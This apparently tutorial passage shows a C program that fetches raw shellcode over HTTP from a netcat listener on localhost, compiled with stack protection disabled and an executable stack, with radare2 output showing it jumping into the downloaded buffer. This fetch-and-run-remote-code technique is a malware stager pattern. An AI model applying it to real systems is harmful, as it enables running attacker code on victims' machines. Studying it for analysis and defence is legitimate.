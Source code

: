 This time as I don't want to over-complicate the example I won't use a web server like apache2, I'll use the netcat software to "emulate" a web server for this single request as follows:

```
:/var/www/html$ sudo nc -lvp 80 < sh 
Listening on [0.0.0.0] (family 0, port 80)
Connection from localhost 36428 received!
GET /sh HTTP/1.1
User-Agent: nc/0.0.1
Host: 127.0.0.1
Accept: */*
```
being sh the RAW HEX shellcode. This command basically indicates netcat to just dump the (bytes) from that file to the first client connected to its port 80.

Then running the progam will go like:
```
:~/C/generic$ gcc -w httpget_download_shellcode.c -o sh -fno-stack-protector -z execstack
:~/C/generic$ ./sh 
jumpting to shellcode
Hello!
```
Note that I compiled the program using those flags, otherwise it won't work.

Let's now analyze it:

```
         0x55d39c38bac4      89c7           mov edi, eax
│           0x55d39c38bac6      b800000000     mov eax, 0
│           ;-- rip:
│           0x55d39c38bacb b    e8c0fcffff     call sym.imp.read       ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x55d39c38bad0      8945ec         mov dword [var_14h], eax
│           0x55d39c38bad3      488d3db40000.  lea rdi, str.jumpting_to_shellcode ; 0x55d39c38bb8e ; "jumpting to shellcode"
│           0x55d39c38bada      e871fcffff     call sym.imp.puts       ; int puts(const char *s)
│           0x55d39c38badf      488d8570feff.  lea rax, [var_190h]
│           0x55d39c38bae6      488945e0       mov qword [var_20h], rax
│           0x55d39c38baea      488b55e0       mov rdx, qword [var_20h]
│           0x55d39c38baee      b800000000     mov eax, 0
│           0x55d39c38baf3      ffd2           call rdx
```
The buffer starts empty, as usual and then it will be filled with some good shellcode:
```
[0x55d39c38bacb]> afvd
type:char ** doesn't exist
arg argc = 0x00000003 0xffffffffffffffff   ........ @rdi 0
arg argv = 
var var_194h = 0x7ffe727894ec = (qword)0x0000000000000001
var var_1a0h = 0x7ffe727894e0 = (qword)0x00007ffe72789768
var var_90h = 0x7ffe727895f0 = (qword)0x2068732f20544547
var var_88h = 0x7ffe727895f8 = (qword)0x312e312f50545448
var var_80h = 0x7ffe72789600 = (qword)0x412d726573550a0d
var var_78h = 0x7ffe72789608 = (qword)0x636e203a746e6567
var var_70h = 0x7ffe72789610 = (qword)0x0a0d312e302e302f
var var_68h = 0x7ffe72789618 = (qword)0x3231203a74736f48
var var_60h = 0x7ffe72789620 = (qword)0x0d312e302e302e37
var var_58h = 0x7ffe72789628 = (qword)0x3a7470656363410a
var var_50h = 0x7ffe72789630 = (qword)0x0a0d0a0d2a2f2a20
var var_48h = 0x7ffe72789638 = (qword)0x0000000000f0b500
var var_4h = 0x7ffe7278967c = (qword)0x9c38bb0000000050
var var_8h = 0x7ffe72789678 = (qword)0x0000005000000003
var var_10h = 0x7ffe72789670 = (qword)0x00007f4571b62300
var var_30h = 0x7ffe72789650 = (qword)0x0100007f50000002
var var_2eh = 0x7ffe72789652 = (qword)0x00000100007f5000
var var_190h = 0x7ffe727894f0 = (qword)0x0000000000000000
var var_14h = 0x7ffe7278966c = (qword)0x71b6230000000048
```